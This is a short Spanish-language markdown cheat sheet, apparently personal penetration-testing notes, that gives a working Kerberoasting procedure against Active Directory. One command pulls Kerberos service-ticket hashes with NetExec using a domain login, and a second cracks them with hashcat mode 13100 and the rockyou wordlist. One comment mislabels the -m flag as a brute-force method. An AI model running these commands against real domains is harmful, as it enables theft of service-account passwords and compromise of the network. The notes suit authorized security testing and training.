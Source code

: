 # Kerberoasting 

Tags: #AD #Kerberoasting #Parrot #Kali #HashCat 

## Obtener Hash con CrackMapExec

```bash 
❯ nxc ldap IP -u 'user' -p 'Password' --kerberoast output.txt

Nota: 
	1. Tener la IP con el dominio en '/etc/hosts'
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 hash-kerberoasting /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```